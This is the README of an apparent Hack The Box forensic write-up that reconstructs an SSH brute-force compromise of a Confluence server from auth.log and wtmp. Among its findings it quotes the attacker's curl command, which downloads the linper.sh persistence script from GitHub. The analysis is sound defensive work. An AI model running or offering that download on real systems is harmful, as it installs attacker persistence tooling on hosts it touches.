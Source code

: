 Sherlock — SSH / auth.log & wtmp Analysis
Overview

This project analyzes the auth.log and wtmp artifacts from the HTB sherlock challenge to investigate an SSH brute-force compromise against a Confluence server. The investigation included:

Identifying the brute-force source IP and confirming successful authentication.

Correlating auth.log events with wtmp records (using utmp.py) to determine when an interactive terminal session was established and its session number.

Tracing post-exploitation activity: creation of a backdoor user and evidence of privileged commands used to download an external script.

Producing a clear timeline, sanitized evidence, and recommendations for remediation.

Key findings (short)

Attacker IP: 65.2.161.68

Compromised user: root

Interactive login (UTC): 2024-03-06 06:32:45

Session number: 37

Backdoor account: cyberjunkie (MITRE: T1136.001)

Observed privileged download: /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh

Importance to cybersecurity

Logs such as auth.log and wtmp are critical sources for incident detection and forensic reconstruction. By correlating authentication events with session records and command evidence, defenders can:

Determine how attackers gained initial access and what actions followed the compromise.

Identify persistence mechanisms (e.g., new accounts) and remove them before further damage.

Recommend concrete hardening steps (disable root SSH, enforce key-based authentication, enable rate-limiting and 2FA) to reduce future risk.

This exercise demonstrates practical skills in log analysis, timeline building, and evidence sanitization — all core capabilities for defenders, incident responders, and forensic analysts.

Usage

The repository includes sanitized logs, utmp.py and writeup.md. These can be used to reproduce the analysis:

Parse wtmp with last -f wtmp or python utmp.py wtmp.

Review writeup.md for the full timeline and commands used.
